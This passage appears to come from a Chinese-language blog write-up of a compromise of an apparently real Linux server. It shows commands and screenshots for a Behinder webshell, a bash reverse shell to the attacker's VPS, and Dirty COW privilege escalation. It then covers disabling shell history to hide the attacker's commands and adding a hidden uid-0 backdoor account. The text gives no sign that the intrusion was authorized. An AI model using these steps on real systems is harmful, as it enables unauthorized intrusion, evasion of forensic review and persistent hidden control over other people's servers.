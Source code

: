把数据包返回的路径复制下来，冰蝎连接成功。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zrTkCnspNhL38oEPXUbzhTR8jfWkL6zic5MCogQq6q0XIDHVib337qG9A/640?wx_fmt=jpeg)

好了，外网拿 shell 基本上就这样了，只要有耐心，总能找得到，拿到 shell 的这一刻，一切的疲惫都随着多巴胺的传递烟消云散～

###### 认认真真的维持据点

言归正传，先看一下权限，查看权限为 www，权限有点小。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zT75Zicu61uicjawqDTibDp00y3cRxzoklIRWZVIqjKubGMHlRgpDJh3dQ/640?wx_fmt=jpeg)

uname -a 查看一下版本号，大于 2.6.22，可以试试脏牛提权。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zFZosTXUzbG5UbxUrRmMTIEoh6Ncb1Z3qcbn5ApuRQiaJgUFkLzTLQRA/640?wx_fmt=jpeg)

不知道是不是我冰蝎问题，输入命令老是卡死，先做个反弹吧。

```
Vps监听一下  ：nc -lvvp 8080

被控制的主机：bash -i >& /dev/tcp/vps的ip地址/8080 0>&1
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zmFteuuvgFyVoFAHU4m3vIwnPKQWUc9fvaicUCx1QebbKwFp2V8WQYnQ/640?wx_fmt=jpeg)

反弹成功之后，在冰蝎里上传脏牛提权工具。

./dirty password

等了差不多 3 分钟，出现下图的内容之后即提权成功，拿着账号密码去登陆即可。

账号：firefart

密码：password

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zZC10hRztNicXqiabCPKT90iaicXG1tSeYFsZXwFCh7LVgEPnfWR4FNicsyA/640?wx_fmt=jpeg)

登陆之后不要急，先隐藏一下自己的操作，禁止 history 记录我的输入的命令。

```
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG;export HISTFILE=/dev/null;export HISTSIZE=0;export HISTFILESIZE=0
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0z6ZJYDKGgPrXWvjAsiaibtyhWnDKE1WPe44WOSLBAKYyqtPnSpYcGC0Tw/640?wx_fmt=jpeg)

将备份的 / tmp/passwd.bak，替换 / etc/passwd。还原 root 账号。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zoFqL6gl8nu2bM4fNBwaicEVD83eS6fRtukpD4fbLr7OzmhOPoGyNPKA/640?wx_fmt=jpeg)

看了下 shadow 里 root 账号的密码，没有解出来，那就创建一个 root 权限的账号吧。

```
useradd -p “密码” db -o -u 0 -g root
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zMj8SkmrtczdabibdRf2KKelVhdOumWLrV5d0LQz91CO0syI0q7eicnMQ/640?wx_fmt=jpeg)
